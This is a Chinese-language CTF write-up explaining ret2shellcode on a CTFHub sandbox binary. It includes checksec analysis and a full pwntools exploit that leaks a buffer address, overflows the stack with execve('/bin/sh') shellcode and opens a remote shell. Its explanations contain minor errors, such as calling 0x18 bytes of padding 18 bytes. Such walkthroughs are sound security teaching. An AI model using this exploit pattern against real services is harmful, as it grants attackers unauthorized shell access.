 # ret2shellcode
ret2shellcode是指攻击者需要自己将调用shell的机器码（也称shellcode）注入至内存中，
随后利用栈溢出复写return_address，进而使程序跳转至shellcode所在内存
简单地说——栈溢出+执行shellcode
## 过程
首先使用checksec查看其防护措施与基本信息
```bash
checksec --file=pwn --output=json | jq
```
结果如下
![](./asset/PixPin_2025-05-26_00-32-13.png)
- relro: "partial" 只做了部分只读重定位保护，防护较弱
- canary: "no" 没有栈保护，攻击者可以直接覆盖返回地址
- nx: "no" 没有开启NX保护，可以在栈上执行代码
- pie: "no" 没有开启PIE，地址是固定的
- rpath: "no" 没有开启rpath，无动态库路径风险
- runpath: "no" 没有开启runpath，无动态库路径风险
- symbols: "yes" 符号表存在
- fortify_source: "no" 没有开启源码加固
- fortified:"0" 没有被加固的函数
- "fortified_able":"2" 有2个函数可以被加固
## 发现注入点
![](asset/PixPin_2025-05-26_00-53-53.png)
buf是16字节，但是read函数读取了400字节
注入
## 代码如下
```python
from pwn import *

context.arch = 'amd64'  # 64位程序
p = remote('challenge-5e1961ab030988ef.sandbox.ctfhub.com', 38167)  # 替换为实际目标

# 1. 获取泄露的 buf 地址
p.recvuntil(b"[")
buf_addr = int(p.recvuntil(b"]", drop=True), 16)
log.success(f"buf address: {hex(buf_addr)}")

# 2. 生成 Shellcode（调用 execve("/bin/sh")）
shellcode = asm(shellcraft.sh())
shellcode_addr=buf_addr + 32  # shellcode  buf和rbp的偏移量是16+rbp的偏移量8+返回地址8=32

# 3. 构造 Payload
payload = b'a'*0x18+p64(shellcode_addr)+shellcode
# 4. 发送 Payload
p.send(payload)
p.interactive()  # 获取交互式 shell
```
## 代码解释
1. p.recvuntil(b"[")
- 从程序输出中读取数据，直到遇到字符 ]
2. buf_addr = int(p.recvuntil(b"]", drop=True), 16)
- 读取 buf 地址，buf_addr 是泄露的 buf 地址
3. shellcode = asm(shellcraft.sh())
- 生成 Shellcode，调用 execve("/bin/sh")
4. shellcode_addr=buf_addr + 32
- 计算 shellcode 的地址，buf 和 rbp 的偏移量是 16 + rbp 的偏移量 8 + 返回地址 8 = 32字节
5. payload = b'a'*0x18+p64(shellcode_addr)+shellcode
- 构造 Payload，填充 18 字节的 a，然后是 shellcode 的地址，最后是 shellcode
## 结果如下
![](asset/PixPin_2025-05-26_01-00-18.png)